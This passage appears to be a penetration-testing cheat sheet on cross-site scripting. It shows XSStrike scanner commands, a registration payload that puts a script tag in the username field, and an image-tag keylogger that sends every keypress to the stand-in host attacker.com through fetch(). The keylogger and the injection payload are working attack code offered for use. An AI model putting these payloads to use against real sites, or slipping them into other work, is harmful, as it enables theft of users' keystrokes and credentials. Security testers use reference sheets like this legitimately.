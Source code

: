 <br />

## Automation

**[XSStrike](https://github.com/s0md3v/XSStrike)** is a XSS scanner.

```sh
# GET request
python xsstrike.py -u http://vulnerable.com/?param=test

# POST reqeust
python xsstrike.py -u http://vulnerable.com/post --data "username=test&email=test&comment=test"

# data as JSON
python xsstrike.py -u http://vulnerable.com/comment --data '{"comment": "test"}' --json
```

<br />

## Register New User with XSS

If the user name is reflected in the website, we might be able to inject XSS when registration.

```bash
username=john<script>alert(1)</script>&password=pass
```

<br />

## Key Logging

Reference: [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS Injection#javascript-keylogger](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#javascript-keylogger)

```bash
<img src=x onerror='document.onkeypress=function(e){fetch("http://attacker.com?k="+String.fromCharCode(e.which))},this.remove();'>
```

</div>